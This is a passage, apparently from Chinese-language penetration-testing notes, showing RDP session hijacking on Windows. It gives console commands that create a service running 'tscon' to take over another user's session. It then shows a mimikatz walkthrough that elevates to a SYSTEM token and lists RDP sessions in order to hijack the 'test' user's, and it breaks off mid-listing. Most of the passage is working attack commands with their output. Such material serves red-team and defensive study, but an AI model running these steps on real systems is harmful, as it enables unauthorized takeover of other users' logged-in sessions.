 ```console
C:\Windows\system32>sc create sesshijack binpath= "cmd.exe /k tscon 3 /dest:rdp-tcp#9"
[SC] CreateService SUCCESS

C:\Windows\system32>net start sesshijack

The service is not responding to the control function.
C:\Windows\system32>
More help is available by typing NET HELPMSG 2186.

```

### mimikatz - ts::remote

以下是使用 mimikatz 劫持 test 用户的示例：

```console
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

368 {0;000003e7} 0 D 17195      NT AUTHORITY\SYSTEM S-1-5-18 (04g,20p) Primary
 -> Impersonated !
 * Process Token : {0;0005a226} 2 D 1547641    10_0_8_17\Administrator S-1-5-21-3697670079-2126774415-1611505882-500 (14g,23p) Primary
 * Thread Token  : {0;000003e7} 0 D 1568236    NT AUTHORITY\SYSTEM S-1-5-18 (04g,20p) Impersonation (Delegation)

mimikatz # ts::sessions

Session: 0 - Services
  state: Disconnected (4)
  user :  @
  curr : 9/27/2023 10:56:14 PM
  lock : no

Session: *2 - RDP-Tcp#7
  state: Active (0)
  user : Administrator @ 10_0_8_17
  Conn : 9/27/2023 10:53:56 PM
  disc : 9/27/2023 10:53:56 PM
  logon: 9/27/2023 10:21:56 PM
  last : 9/27/2023 10:56:14 PM
  curr : 9/27/2023 10:56:14 PM
  lock : no
  addr4: xx.xx.xx.xx

Session: 3 - RDP-Tcp#8
  state: Active (0)
  user : test @ 10_0_8_17
  Conn : 9/27/2023 10:56:06 PM
  disc : 9/27/2023 10:56:06 PM
  logon: 9/27/2023 10:28:00 PM
  last : 9/27/2023 10:56:10 PM
  curr : 9/27/2023 10:56:14 PM
  lock : no
  addr4: xx.xx.xx.xx

Session: 4 - Console
  state: Connected (1)
  user :  @
```